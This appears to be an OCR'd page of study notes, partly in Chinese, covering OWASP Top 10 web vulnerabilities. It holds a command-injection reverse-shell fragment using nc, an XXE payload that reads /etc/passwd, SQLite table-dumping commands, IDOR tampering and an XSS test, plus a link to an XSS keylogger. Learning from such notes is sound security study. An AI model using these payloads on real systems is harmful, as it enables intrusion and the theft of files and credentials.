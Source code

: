 	--> Injection
		--> SQL | command 
		--> reverval shell : 
			--> ;nc -e /bin/bash
		--> Commands to try
			--> Linux : 
				whoami
				id
				ifconfig/ip addr
				uname -a
				ps -ef
				
			--> Windows :
				whoami
				ver
				ipconfig
				tasklist
				netstat -an	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> Broken Authentication :
		--> session cookies 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> Sensitive Data Exposure :
		--> 查詢語言（  SQL ）語法
		--> sqlite3 <database-name>
			> .tables  :查看資料庫中的表
			> PRAGMA table_info(customers);  :查看表信息
			> SELECT * FROM customers;
			
			--> hash : https://crackstation.net/
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
	--> XML External Entity (XXE)
		--> RCE | DOS | SSRF
		--> !DOCTYPE : 定義 ROOT 元素
			--> !ELEMENT : 定義一個新的元素
				--> !ENTITY : 定義一個新的實體
				
		--> <!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
		
		--> note.dtd (#PCDATA 表示可解析的字元資料。)
			!DOCTYPE note - 定義名為note的文檔的根元素 
			!ELEMENT note - 定義 note 元素必須包含以下元素：“to、from、heading、body”
			!ELEMENT to - 將 to 元素定義為「#PCDATA」類型
			!ELEMENT from - 將 from 元素定義為「#PCDATA」類型
			!ELEMENT 標題 - 將 heading 元素定義為「#PCDATA」類型
			!ELEMENT body - 將body 元素定義為「#PCDATA」類型		
			
		--> XXE payload: 
			<?xml version="1.0"?>
			<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
			<root>&read;</root>		
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
	--> Broken Access Control : 
		--> IDOR : 輸入處理方式中的錯誤配置
		--> id =1 => id =2
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> Security Misconfiguration :
		--> 安全配置錯誤
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> Cross-site Scripting
		--> XSS (Javascript、VBScript、Flash 和 CSS)
		--> Test : <script>alert(“Hello World”)</script>
		--> document.write) => 覆蓋網站的 HTML
		--> XSS Keylogger =>記錄使用者的所有擊鍵
			--> http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html